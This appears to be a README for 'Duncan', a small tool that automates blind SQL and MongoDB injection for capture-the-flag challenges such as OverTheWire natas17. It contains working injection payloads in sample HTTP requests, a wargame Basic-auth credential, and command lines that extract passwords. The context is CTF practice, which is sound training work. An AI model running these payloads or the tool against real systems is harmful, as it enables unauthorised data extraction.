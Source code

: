#Duncan
Duncan is a script which helps automate the extraction of data using blind injection techiques. It does not help you with finding these it just helps with some of the boring stuff

##Why?
I did a quite a few challenges and based around this and got bored writing similar scripts

##Installation
1. Git clone the repo
2. `pip install doctopt`

##Usage
1. Capture a request using your method of choice (or just fabricate one in a text file). See below (Note: You need to put $$PAYLOAD$$ where you want the current extracted value inserting)
```
POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas17.natas.labs.overthewire.org/
Cookie: __cfduid=d861fc1b6c46e687e61e35690b5f416611520867281; __utma=176859643.1818706855.1520867282.1520867282.1520867282.1; __utmb=176859643.2.10.1520867282; __utmc=176859643; __utmz=176859643.1520867282.1.1.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); __utmt=1
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

username=natas18%22+and+password+like+binary+%27$$PAYLOAD$$%25%27+and+sleep%281%29+%23
```
2. Run duncan providing the url to use, the request file, a character set to use and an expression to determine the sucess or failure of the extraction. Optional you can give a data length to extract

```
$ ./duncan.py -r natas17.txt -u http://natas17.natas.labs.overthewire.org -c alpha -l 32 -e "r.elapsed.seconds >= 1"
```
The above command will solve the natas17 level from overthewire.org
```
./duncan.py -r mongo.txt -u http://ptl-b4178f0b-d147a1d2.libcurl.so -c "-0123456789abcdef" -l 20 -e "'search=admin' in r.text"
```
The above command will solve a mongodb injection challenge. The request file for this is below and was handcrafted in a text editor
```
GET /?search=admin%27+%26%26+this.password.match(/^$$PAYLOAD$$.*$/)%00 HTTP/1.1
Host: ptl-b4178f0b-d147a1d2.libcurl.so
```